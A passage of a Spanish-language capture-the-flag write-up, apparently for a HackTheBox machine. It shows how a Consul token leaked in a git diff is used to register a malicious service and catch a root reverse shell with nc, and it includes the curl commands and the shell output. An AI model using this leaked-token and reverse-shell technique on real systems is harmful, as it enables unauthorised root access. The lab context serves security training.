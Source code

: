 ```console
--- a/whackywidget/put-config-in-consul.sh
+++ b/whackywidget/put-config-in-consul.sh
@@ -1,4 +1,4 @@
 # We use Consul for application config in production, this script will help set the correct values for the app
-# Export MYSQL_PASSWORD before running
+# Export MYSQL_PASSWORD and CONSUL_HTTP_TOKEN before running
 
-consul kv put --token bb03b43b-1d81-d62b-24b5-39540ee469b5 whackywidget/db/mysql_pw $MYSQL_PASSWORD
+consul kv put whackywidget/db/mysql_pw $MYSQL_PASSWORD
```

Ahora ejecutamos nuestro servicio, esperemos el **intervalo** establecido y se ejecutara nuestra **Shell inversa**:

```console
developer@ambassador:/tmp/.10.10.14.155$ curl -X PUT --data @payload.json \
  -H 'X-Consul-Token: bb03b43b-1d81-d62b-24b5-39540ee469b5' \
  http://localhost:8500/v1/agent/service/register?replace-existing-checks=true
developer@ambassador:/tmp/.10.10.14.155$ chmod +x reverse.sh 
developer@ambassador:/tmp/.10.10.14.155$ 

───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
❯ nc -lvnp 1234
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.11.183.
Ncat: Connection from 10.10.11.183:35370.
bash: cannot set terminal process group (29649): Inappropriate ioctl for device
bash: no job control in this shell
root@ambassador:/# whoami
whoami
root
root@ambassador:/# find / -name root.txt -exec ls -l {} \;
find / -name root.txt -exec ls -l {} \;
-rw-r----- 1 root root 33 Nov 23 17:05 /root/root.txt
```

Luego de esto es importante **desactivar el servicio**, lo hacemos con el siguiente comando:

```console
developer@ambassador:/tmp/.10.10.14.155$ curl -X PUT -H 'X-Consul-Token: bb03b43b-1d81-d62b-24b5-39540ee469b5' \
  http://localhost:8500/v1/agent/service/deregister/marss_service
```

## Autopwn

* * *
